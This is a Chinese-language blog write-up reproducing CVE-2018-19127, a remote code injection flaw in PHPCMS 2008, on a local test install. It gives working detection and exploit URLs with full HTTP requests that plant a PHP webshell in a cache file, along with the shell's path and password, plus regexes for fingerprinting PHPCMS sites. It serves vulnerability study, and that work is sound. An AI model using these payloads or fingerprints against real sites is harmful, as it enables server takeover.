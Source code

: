 ```yaml
---
layout:     post
title:      PHPCMS 2008远程代码注入漏洞
subtitle:   远程代码注入漏洞
date:       2019-09-18
author:     看不尽的尘埃
header-img: img/post-bg-ios9-web.jpg
catalog: 	 true
tags:
    - 远程代码注入漏洞
---
```

## 0x00 漏洞介绍
* 漏洞名称：PHPCMS 2008远程代码注入漏洞
* CVE编号：CVE-2018-19127
* 发布时间：2018-11-28
* 漏洞说明：该漏洞利用向PHPCMS网站路径可控的缓存文件写入任意内容，从而可以写入PHP代码，获取网站WebShell，最终获取到网站的最高权限。
* 影响范围：PHPCMS2008 sp4 及以下版本
* 修复建议：PHPCMS 2008 官方已不再维护，建议升级到 2008 以上的版本

## 0x01 环境搭建
下载源码：[http://www.onlinedown.net/soft/1135853.htm](http://www.onlinedown.net/soft/1135853.htm)
下载完成后，打开phpstudy，解压到WWW目录下面，访问URL：
![图片](../../../../img/phpcms_rce_1.png)
根据提示点击安装，下图是配置数据库信息和管理员信息：
![图片](../../../../img/phpcms_rce_2.png)

在安装过程中遇到报错的话是mysql版本高了，毕竟这款CMS比较老了。因为TYPE和ENGINE都代表数据库引擎，但type只向下兼容，所以mysql版本太高了不兼容，所以这里需要替换所有文件中存在以下关键词的，替换成-->后面的内容就可以安装成功了：
```
TYPE=MyISAM --> ENGINE=MyISAM 
TYPE=MEMORY --> ENGINE=MEMORY
```

修改完成后，重新配置数据库信息和管理员信息，完成后提交，过五秒提示安装成功：
![图片](../../../../img/phpcms_rce_3.png)


## 0x02 检测与利用
### Poc(检测)代码
我通过网上的EXP修改了一下，改为了显示phpinfo信息：
```
http://127.0.0.1/phpcms/type.php?template=tag_(){};@unlink(FILE);assert(phpinfo());{//../rss
```
以下是请求的数据包：
```
GET /phpcms/type.php?template=tag_(){};@unlink(FILE);assert(phpinfo());{//../rss HTTP/1.1
Host: 127.0.0.1
Connection: keep-alive
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/76.0.3809.132 Safari/537.36
Sec-Fetch-Mode: navigate
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3
Sec-Fetch-Site: none
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9,en-US;q=0.8,en;q=0.7
```
下图说明了搭建的靶机环境确实存在该漏洞：
![图片](../../../../img/phpcms_rce_4.png)


### 利用(EXP)代码
```
/type.php?template=tag_(){};@unlink(FILE);assert($_POST[endust]);{//../rss
```
以下是请求的数据包：
```
GET /phpcms/type.php?template=tag_(){};@unlink(FILE);assert($_POST[endust]);{//../rss HTTP/1.1
Host: 127.0.0.1
Connection: keep-alive
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/76.0.3809.132 Safari/537.36
Sec-Fetch-Mode: navigate
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3
Sec-Fetch-Site: none
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9,en-US;q=0.8,en;q=0.7
```

请求完成后，状态码为200的话，就可以尝试通过一句话客户端去连接一下：
```
连接地址：http://localhost/data/cache_template/rss.tpl.php
密码：endust
```

## 0x03 Web指纹
顺便记录一下Phpcms指纹规则：
```
1、<meta name\="generator" content=\"Phpcms (.*?)">
2、<link href="(.*)/phpcms.css(.*)>")
3、<meta content="Phpcms(.*)>")
```

## 0x04 总结
复现挺容易的，就是搭建这个环境花了一点时间，从想放弃到静下心来解决问题，而不是逃避问题，最后通过百度也成功解决了安装报错的问题。
